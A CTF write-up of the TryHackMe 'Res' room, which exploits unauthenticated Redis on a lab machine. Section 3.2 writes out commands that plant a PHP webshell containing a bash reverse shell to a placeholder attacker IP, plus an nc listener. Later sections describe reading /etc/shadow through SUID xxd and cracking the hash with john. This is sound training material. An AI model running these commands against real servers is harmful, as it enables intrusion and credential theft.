 ```yaml
---
title: Res CTF Write Up (2023)
date: 2023-10-17
categories: [CTF Write Up, THM]
tags: [nmap, redis, rce, webshell, php, gtfobins, john, suid]
img_path: /assets/res/
mermaid: true
---
```


![room_banner](room_banner.png)

## 1 Summary

[![](https://mermaid.ink/img/pako:eNptkLtuwzAMRX9FUBcZSILMGgrUj_SBFAGcdNNCyHQs2KYMSe4DQX6kS-f-XT-hspOhQ7VQuDy8vOCJa1shl7zu7JtuwAW2LRWx-O5EQWOPDoKxlLDlklEPA1OKHkC3B2d066N6y1JRYmV8chlLJ_IPMfHm2Oxoldm6RpwEwqAhRNCyTIgyK5JESumwmqVcjB7dKrwH9vP1-X1tXdyzSNwfNrvU0Gy9f3nMp_pkG2KHBllphgHdnKsQWwgxf8ee7Sv2SOEasZjWbISzNvy3RZEi3YH3OdZsCuWDsy3Km3q95gseT9KDqeLNTjPNQxPNFZfxW4FrFVd0jhyMwe4_SHMZ3IgLPg5VjJMbODrouayh83j-BY4SfV4?type=png)](https://mermaid.live/edit#pako:eNptkLtuwzAMRX9FUBcZSILMGgrUj_SBFAGcdNNCyHQs2KYMSe4DQX6kS-f-XT-hspOhQ7VQuDy8vOCJa1shl7zu7JtuwAW2LRWx-O5EQWOPDoKxlLDlklEPA1OKHkC3B2d066N6y1JRYmV8chlLJ_IPMfHm2Oxoldm6RpwEwqAhRNCyTIgyK5JESumwmqVcjB7dKrwH9vP1-X1tXdyzSNwfNrvU0Gy9f3nMp_pkG2KHBllphgHdnKsQWwgxf8ee7Sv2SOEasZjWbISzNvy3RZEi3YH3OdZsCuWDsy3Km3q95gseT9KDqeLNTjPNQxPNFZfxW4FrFVd0jhyMwe4_SHMZ3IgLPg5VjJMbODrouayh83j-BY4SfV4)

## 2 Background Information

### 2.1 Redis

[Redis](https://backendless.com/redis-what-it-is-what-it-does-and-why-you-should-care/) is a type of database that stores data entirely in main memory (RAM) rather than on disk. 

Its main benefit is that it provides **faster access** compared to a traditional disk-storaged database, and its main drawback is that it's **sensitive to data loss** in the event of a shutdown or a crash, since it is stored in memory.

![redis-flow](redis-flow.png)

Other than the knowledge of what Redis is, we don't really need much else to work our way through this room. To be honest, even that knowledge isn't necessary, but I find it always better to learn as much as possible for the technologies I am working with. 

If someone has used Redis before, and knows how to interact with it through CLI it will be beneficial for sure, but we will learn the required commands through a [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce) article anyway, so let's crack on 🏃‍♀️!

## 3 CTF Process

### 3.1 Port-scanning

The first question asks us about the number of open ports, so let's start with an **nmap port-scan**.

![nmap-results_common_ports](nmap-scan_without_all_ports.png)

We can see an Apache web server listening to port 80, although, this does not seem like the right answer to the question.

The default command, that is without any port specification, scans the [**most common 1,000 ports for each protocol**](https://nmap.org/book/man-port-specification.html#:~:text=By%20default%2C%20Nmap%20scans%20the,1%2C000%20ports%20for%20each%20protocol.&text=This%20option%20specifies%20which%20ports,(e.g.%201%2D1023%20).)), so we can try scanning for all ports by adding the `-p` option:

![nmap-scan-all-ports](nmap-scan-all-ports.png)

Now, a **redis** server listening on port 6379 appears, and the information provided allows us to answer the next three questions 🥂!

### 3.2 Redis to RCE

[This](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis) excellent **HackTricks** article provides info on how to connect to Redis. In addition, it let us know that **by default Redis can be accessed without credentials**! 

Futhermore, the article suggests to us trying the `info` command first. The ouput of this command will reveal if the database requires authentication or not. If it does, the following message will show up: `-NOAUTH Authentication required.` If not, it will return output with Redis info. 

So, let's try that:

![redis_login](redis_connection.jpg)

We are in without needing any credentials, and we also have a username at hand 🎉!

The same [article](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce) lists two ways on how to get **Remote Code Execution (RCE)**:
1. Using the `redis-rogue-server` python script, but this only works for versions `<= 5.0.5`, thus, we can't use it as our target uses `6.0.7`.
2. Creating a **PHP Webshell**, with the prerequisite to know the *path of the Web site folder*. Based on our **nmap scan**, we know that we have an **Apache web server**, and by asking Google, we can find out its default directory:

![default_dir_apache](default_dir_apache.png)

 So let's trying to get our reverse shell:
 1. We first need to create a reverse shell, this time using a PHP reverse shell from the [Highon.coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/#php-reverse-shell) blog (note that we need to **escape** the double quotes inside our command with `\`, otherwise it won't work!):
 ```bash
 # define the path of Apache's default directory
 config set dir /var/www/html/
 # create a "subdirectory" to host our reverse shell 
 config set dbfilename webshell.php
 # our reverse shell code
 set webshell.php "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/<attacking-ip>/12345 0>&1'\"); ?>"
 # save our configuration
 save
 ```
 2. We then have to set up a listener to our machine:
 ```bash
 nc -lnvp 12345
 ```
 3. Finally, by visiting the newly-created server's subdirectory: http://\<target-ip\>/webshell.php, on our browser, we receive our shell 🎊!
  
 ![rce_setup](rce_setup.png)
 
With our **initial foothold** established, let's search for `user.txt`:

![flag1](flag1.jpg)

First 🚩 captured!

### 3.3 Privilege Escalation with SUID binaries 

The next question wants us to find the local user account's password. We already saw user `vianka` when first logged-in in Redis, but we saw it again while getting our first flag `/home/vianka/user.txt`. 

When trying to switch to this user, we get the message: `su: must be run from a terminal`. Thus, we need to upgrade our shell, and then find a way to discover `vianka`'s password!

![su_tty](su_tty.png)

It is always worth searching for files with [SUID](https://www.scaler.com/topics/special-permissions-in-linux/) permissions set, as it is often an easy way to do PrivEsc. 

![suid](suids.jpg)

We have done this a couple of times so far, and `usr/bin/xxd` does not seem like a binary that is usually on this list. As we always do when we want to check for SUID file's potential exploits, let's visit [GTFOBins](https://gtfobins.github.io/#xxd): 

![xxd_suid](xxd_suid.png)

Based on GTFOBins, we can use the `xxd` binary to read any file we want, since it will run as root. We can use this to answer the room's last two questions:
1. We can assume that the `root.txt` file is located under the `/root` directory. As a result, we can define the `LFILE` variable as `/root/root.txt` and snatch the root 🚩.
2. We can do the same process for reading the `/etc/shadow` file in order to get `vianka`'s hash. Then, we can combine `vianka`'s info found on `/etc/passwd` file, and use both for unshadowing, and finally crack the hash with `john`.

Let's start by trying to read `root.txt` first. We need to make sure to either be within `xxd`'s directory, by typing `cd /usr/bin/`, or provide the full path, that is `/usr/bin/xxd`.

![flag2](flag2.jpg)

That was easy enough, and we have now captured our second 🚩. Let go for some hash cracking now 🔒 for getting `vianka`'s password and complete this room!

### 3.4 Hash Cracking with John The Ripper

Let's start by reading the `shadow` file, copying `vianka`'s information, and pasting it into a file on our machine:

![xxd_shadow](xxd_shadow.png)

We need to also copy and paste `vianka`'s info from the `passwd` file into another file on our local machine:

![passwd](passwd.png)

Now, all we have to do is to unshadow the files locally, and pass the unshadowed file to `john` so he can do its magic 🪄:

![john](john_vianka.jpg)

And that's us done 🍻!